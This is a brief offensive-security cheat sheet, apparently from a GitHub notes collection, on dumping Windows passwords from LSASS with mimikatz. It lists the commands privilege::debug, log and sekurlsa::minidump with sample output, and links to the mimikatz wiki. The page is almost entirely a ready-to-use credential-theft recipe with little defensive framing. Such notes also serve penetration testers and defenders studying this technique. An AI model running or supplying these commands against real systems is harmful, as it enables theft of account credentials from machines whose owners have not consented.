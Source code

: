 # Windows - Dumping Passwords from LSASS

**Must have SeDebugPrivilege**

```
mimikatz# privilege::debug
Privilege '20' OK
```

Checking if debug levels are correct

```
mimikatz# log <log_file>
Using 'log_file' for logfile : OK

mimikatz# log /stop
```

Turning on logging to output to file (Starting and stopping)

```
mimikatz# sekurlsa::minidump lsass.dmp
```

Dumping password from lsass dump

**References:**
* https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa
